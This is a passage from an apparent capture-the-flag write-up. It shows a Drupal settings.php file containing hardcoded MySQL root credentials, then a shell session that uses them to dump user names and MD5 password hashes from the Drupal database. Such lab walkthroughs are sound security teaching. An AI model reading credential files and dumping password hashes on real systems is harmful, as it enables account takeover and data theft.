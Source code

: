 ![Drupal Settings.php](/img/blog/ctf8/drupal-settings.png)


File path:
<code>/var/www/html/drupal/sites/default/settings.php</code>

The file contained the **root** account credentials for mysql.

{% highlight php %}
*/

$db_url = 'mysqli://root:JumpUpAndDown@localhost/drupal';

$db_prefix = '';
{% endhighlight %}

The following SQL was used to disclose the password hashes:

{% highlight bash %}
/bin/sh -i

sh: no job control in this shell

sh-3.2$ mysql -u root -p drupal
Enter password: JumpUpAndDown
select name,pass from users;
/q
admin     49265c16d1dff8acef3499bd889299d6
Barbara     bed128365216c019988915ed3add75fb
Jim     2a5de0f53b1317f7e36afcdb6b5202a4
Steve     08d15a4aef553492d8971cdd5198f314
Sherry     c3319d1016a802db86653bcfab871f4f
Gene     9b9e4bbd988954028a44710a50982576
Harvey     7d29975b78825ea7c27f5c0281ea2fa4
John     518462cd3292a67c755521c1fb50c909
Johnathan     6dc523ebd2379d96cc0af32e2d224db0
Susan     0d42223010b69cab86634bc359ed870b
Dan     8f75ad3f04fc42f07c95e2f3d0ec3503
George     ed2b1f468c5f915f3f1cf75d7068baae